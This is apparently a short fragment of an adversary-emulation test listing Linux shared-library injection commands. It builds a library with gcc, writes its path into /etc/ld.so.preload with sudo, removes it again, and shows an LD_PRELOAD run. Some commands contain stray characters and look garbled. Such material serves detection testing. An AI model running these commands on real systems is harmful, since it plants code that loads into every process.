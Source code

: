 gcc -shared -fPIC ./inject_lib.c -o inject_lib.so -ldl  
  
1. Shared Library Injection via /etc/ld.so.preload  
Attack Commands:  
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'  
Cleanup Commands:  
sudo sed -i 's##/tmp/inject_lib.so##' /etc/ld.so.preload  
  
2. Shared Library Injection via LD_PRELOAD  
Attack Commands:  
LD_PRELOAD=#/tmp/inject_lib.so ls  
